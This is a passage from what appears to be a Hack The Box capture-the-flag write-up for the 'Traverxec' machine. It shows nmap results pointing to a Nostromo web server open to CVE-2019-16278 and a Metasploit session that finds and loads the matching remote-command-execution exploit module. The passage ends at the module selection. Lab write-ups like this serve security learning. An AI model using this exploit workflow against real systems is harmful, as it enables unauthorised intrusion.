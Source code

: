 ```console
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 26 10:40:56 2020 -- 1 IP address (1 host up) scanned in 147.53 seconds
```

* Interesting Nostromo Web server is running on port 80 with recent CVE-2019-16278


## Metasploit Framework :

```console
root@Kali:~/HTB/Traverxec# msfconsole
[-] ***rting the Metasploit Framework console.../
[-] * WARNING: No database support: could not connect to server: Connection refused
	Is the server running on host "localhost" (::1) and accepting
	TCP/IP connections on port 5432?
could not connect to server: Connection refused
	Is the server running on host "localhost" (127.0.0.1) and accepting
	TCP/IP connections on port 5432?

[-] ***
                                                  
  +-------------------------------------------------------+
  |  METASPLOIT by Rapid7                                 |
  +---------------------------+---------------------------+
  |      __________________   |                           |
  |  ==c(______(o(______(_()  | |""""""""""""|======[***  |
  |             )=\           | |  EXPLOIT   \            |
  |            // \\          | |_____________\_______    |
  |           //   \\         | |==[msf >]============\   |
  |          //     \\        | |______________________\  |
  |         // RECON \\       | \(@)(@)(@)(@)(@)(@)(@)/   |
  |        //         \\      |  *********************    |
  +---------------------------+---------------------------+
  |      o O o                |        \'\/\/\/'/         |
  |              o O          |         )======(          |
  |                 o         |       .'  LOOT  '.        |
  | |^^^^^^^^^^^^^^|l___      |      /    _||__   \       |
  | |    PAYLOAD     |""\___, |     /    (_||_     \      |
  | |________________|__|)__| |    |     __||_)     |     |
  | |(@)(@)"""**|(@)(@)**|(@) |    "       ||       "     |
  |  = = = = = = = = = = = =  |     '--------------'      |
  +---------------------------+---------------------------+


       =[ metasploit v5.0.73-dev                          ]
+ -- --=[ 1965 exploits - 1095 auxiliary - 337 post       ]
+ -- --=[ 558 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

msf5 > search nostromo 1.9.6

Matching Modules
================

   #  Name                                       Disclosure Date  Rank    Check  Description
   -  ----                                       ---------------  ----    -----  -----------
   0  exploit/multi/http/nostromo_code_exec      2019-10-20       good    Yes    Nostromo Directory Traversal Remote Command Execution
   1  exploit/windows/ftp/absolute_ftp_list_bof  2011-11-09       normal  No     AbsoluteFTP 1.9.6 - 2.2.10 LIST Command Remote Buffer Overflow


msf5 > use exploit/multi/http/nostromo_code_exec
```

[logo]: Traverxec.jpg